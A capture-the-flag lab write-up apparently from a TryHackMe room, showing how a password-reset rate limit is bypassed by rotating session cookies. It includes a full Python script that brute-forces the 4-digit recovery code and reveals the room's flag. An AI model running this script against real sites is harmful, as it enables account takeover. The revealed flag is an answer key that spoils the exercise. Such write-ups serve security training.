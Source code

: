 # Brute forcing 4-digit code

Using the email `tester@hammer.thm` we have found from the enumeration phase, we can explore the reset password feature.

### Overview of password recovery process

**(1)** Enter email in the **Reset Password** page

POST `/reset_password.php` (email=tester%40hammer.thm)

> NOTE: this request must be performed before attempting to POST the recovery code (refer to step 3)&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Response**

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**(2)** A `GET /reset_password.php` request will be sent.&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

If the cookie is valid (not expired), we will be presented with a form to enter the 4-digit recovery code.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

**(3)** Send recovery code

POST `/reset_password.php` with recovery code and **s** parameter defined in the request body.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A script exist that automatically logs the user out after a set period of time. The value `countdownv` is used as the time variable, which appears to be controlled by the **s** parameter in our request body:

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

**Response**

If we send an expired cookie, we will get the following response:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

If the cookie is not expired, we will be able to send our recovery code. The image below shows the display for an invalid recovery code.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

**(4)** Once the window period is over (`countdownv <=0`), the cookie will be expired, and the user will be automatically logged out.

Automatic logout: `GET /logout.php`

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

This will cause the application to expire our cookie.

**Response**

Set-Cookie to `PHPSESSID=deleted`.

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>

**(5)** From the `Location` header defined in the previous response, a `GET /index.php` request with no cookies will be sent, to redirect back to the main login page.

`GET /index.php`&#x20;

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>REQUEST</p></figcaption></figure>

**Response**

New `PHPSESSID` in the Set-Cookie

* Retrieved `PHPSESSID: mgj0vc1q4908nel9i695d3mvj8`&#x20;
* This value will be sent as a cookie in the subsequent requests

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>



**(6)** The entire process repeats from step **(1)** above, with the newly retrieved cookie.&#x20;

### Findings

1. We can control the time period window in the reset password page (`/reset_password.php`) with the **s** parameter. However, this simply prevents the application from immediately expiring our cookie  (`GET /logout.php`), but does not work by itself when brute forcing the code.

### Attempting to brute force the code

1.  It appears that the application implements a rate limiting feature on the recovery code functionality. For a given `PHPSESSID`, we are only allowed 8 attempts within the window period, before it blocks any further requests. To workaround this, we have to retrieve a new `PHPSESSID` after every 8 brute force attempts. This can be done by **(#1)** sending a GET request to `/index.php`, with no cookies, before **(#2)** sending a POST request to `/reset_password.php` with the new cookie retrieved.

    * The flaw is in the way the application handles this process. When we perform step **(#1)**, the application simply associates our new cookie with the email, but fails to generate a new 4-digit code. Thus, this allows us to indefinitely reset our `PHPSESSID` session (without the 4-digit code changing), and eventually retrieve the correct code with _100%_ success rate.
    * This defeats the purpose of the rate limiting feature.



**Python script to brute force the 4-digit recovery code with&#x20;**_**100%**_**&#x20;success rate:**

```python
import requests


class BruteForce:

    s = requests.Session()

    N = 8
    MAX_CODE = 9999
    PORT = 1337
    EMAIL = 'tester@hammer.thm'

    def __init__(self, IP):
        self.IP = IP

        self.headers = {
            'Host': f'{IP}{self.PORT}',
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0'
        }

        self.URL = f'http://{IP}:{self.PORT}'

    def retrieve_new_session(self):
        self.s = requests.Session()

        # session is updated automatically
        self.s.get(f'{self.URL}/index.php', headers=self.headers)

    def associate_email_with_new_session(self):
        data = {
            'email': self.EMAIL
        }

        self.s.post(f'{self.URL}/reset_password.php',
                    headers=self.headers, data=data)

    def start(self):
        try:
            # retrieve initial session
            self.retrieve_new_session()

            # enter email
            self.associate_email_with_new_session()

            iterations = self.MAX_CODE+1

            for i in range(1000, iterations):

                if i % self.N == 0 and i != 0:
                    print('[INFO] Retrieving new PHPSESSID')

                    # request for a new PHPSESSID
                    self.retrieve_new_session()

                    # enter email
                    self.associate_email_with_new_session()

                # zero pads to 4 digits
                code = f'{i:04d}'

                data = {
                    'recovery_code': code,
                    's': 200
                }

                print(f'[INFO] Trying code={code}')

                res = self.s.post(f'{self.URL}/reset_password.php',
                                  headers=self.headers, data=data)

                res_text = res.text
                res_status_code = res.status_code
                res_content_length = len(res.text)
                req_cookies = self.s.cookies.get_dict()

                print(f'status={res_status_code} content_length={
                    res_content_length} cookies={req_cookies}')

                # wrong code
                if 'Invalid or expired recovery code!' in res_text:
                    print("\033[91mWrong code!\033[0m")

                # valid code found
                else:
                    print("\033[92mSuccess!\033[0m")
                    print(f'code={code}')
                    exit()

        except KeyboardInterrupt:
            exit()


IP = input('[!] Enter the target IP address: ')

bruteforce = BruteForce(IP)
bruteforce.start()

```

After running the script, we found the valid code!&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now, we have to manually insert the `PHPSESSID` value into our web browser cookies. Upon navigating to the reset password page, we can enter the found code, before being able to set a new password.

After logging in with our new password, we are presented with the dashboard page.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

With this, we have found the answer to our first question "_What is the flag value after logging in to the dashboard?_": `THM{AuthBypass3D}`
